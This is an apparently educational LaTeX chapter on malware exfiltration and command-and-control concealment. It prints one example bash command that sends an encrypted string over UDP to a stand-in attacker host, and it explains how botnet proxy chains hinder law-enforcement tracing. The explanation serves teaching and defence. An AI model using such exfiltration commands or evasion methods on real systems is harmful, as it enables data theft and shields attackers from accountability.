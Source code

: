 \chapter{Malware Mechanisms - Exflitration}
Modern malware are often not static, it changes and morphs based on remote command. For this to work, there must be some form of communciation from victim to attacker. As discussed above, their is usually a side channel for this.
In C2 structures, it is often advantagous for communciations to be covert and unreadable, as to not create a breadcrumb trail back. 

Data can be pushed over the network, usually in the form of UDP or TCP traffic. 

\begin{lstlisting}[label=EncodingVsEncryption,captionEncoding vs Encryption]
    echo "d15304958943bc2190ab10bbca29a6c0171e5af4347d3c4a4855bc048efbbd97192a46baaecbbac
    55073b72766c25faf90da1c5f386dc1201451b6e5576798a24399885112ff1684fa4ac31a1161d72ad66f
    44ebbaebd05e727f362e15f30315" > /dev/udp/malicious.example.com/80
\end{lstlisting}

In the above string, the previously encrypted string is sent over the network using bash's network device. UDP on port 80 was chosen for our example server

The above string is enrcypted at rest, but another layer at transit would be ideal to obfuscate the traffic's purpose.

\section{Geo Location Altering}
As discussed, it is important to conceal the location of the real attacker. It is common in a C2 structure for zombie machines in the botnet to conduct the attacks. This in essence is a proxied attack,
as the zombies are attacking in place of the master. Proxy chains come in due to the need to remove the direct link from master to slave machies, adding multiple layers of proxy relays all around the world 
in between all communication either way. This means if a zombie machine was captured, authorities may only see communciation to a random cloud host, whom then talks to another random cloud host. It increases the
difficult expinentially for law enforcement to find the criminal, as there are a whole assortment of laws that cause issues for accessing cloud services, when traditionally a live capture was all that was needed. 


